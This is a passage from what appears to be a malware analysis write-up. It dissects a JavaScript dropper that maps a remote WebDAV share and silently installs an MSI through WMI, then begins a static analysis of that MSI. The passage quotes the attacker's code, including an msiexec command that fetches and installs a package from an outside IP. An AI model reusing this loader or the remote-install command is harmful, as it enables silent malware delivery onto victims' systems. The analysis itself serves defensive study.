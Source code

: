 The above JavaScript snippet verifies whether the network drive connection failed and if the number of attempts exceeds 5. If these conditions are met, it utilizes WMI (`Win32_Process`) to execute a command (`net use`) that maps the network drive `letter` to "\\95.164.3.171@80\share\" without persistence. Following execution, it includes a 3-second wait period to confirm the successful mapping of the drive (`isDriveMapped(letter)` returning true).

#### MSI Installation

5. **Install MSI if Connected:**
   ```javascript
   if (connected) {
       var installCommand = 'msiexec.exe /i \\\\95.164.3.171@80\\share\\cisa.msi /qn';
       wmi.Get("Win32_Process").Create(installCommand, null, null, null);

       try {
           network.RemoveNetworkDrive(letter, true, true);
       } catch (e) {}
   } else {
       WScript.Echo("Failed.");
   }
   ```
   The important part of the code snippet is the execution of the `msiexec.exe` command (`'msiexec.exe /i \\\\95.164.3.171@80\\share\\cisa.msi /qn'`) using WMI (`Win32_Process`). This command attempts to silently install an MSI package (`cisa.msi`) located on a remote share (`\\95.164.3.171@80\share`). If `connected` is true (indicating successful network drive mapping), the installation proceeds; otherwise, an error message is echoed via `WScript.Echo("Failed.")`.



### Stage : 2 
#### Basic Static Analysis of the MSI File
``` 
MD5 hash : c4e8f3e02fd50a4051f11048f1355726
```
As previously mentioned, the next phase of the attack involves the deployment of a malicious .msi file on the victim's machine. To unveil the intricacies of this payload, we turn to Orca, a powerful tool for dissecting MSI files. What we discovered through this analysis is both alarming and fascinating.

When we cracked open the .msi file using Orca, we found a treasure trove of malicious components carefully hidden within. This file is not just a simple installer; it’s a cleverly disguised arsenal designed to establish a foothold on the target system.

![image](https://hackmd.io/_uploads/B1ODxL4OA.png)

<figcaption><center>Fig. 1: DLL execution via rundll32 in CustomAction properties.</center></figcaption>

![image](https://hackmd.io/_uploads/rkcsgIE_0.png)
<figcaption><center>Fig. 2: Validating the presence of the required DLL during installation.</center></figcaption>

Now that we have gained some initial insights into the DLL, our next step involves a deeper dynamic analysis by executing the installer.
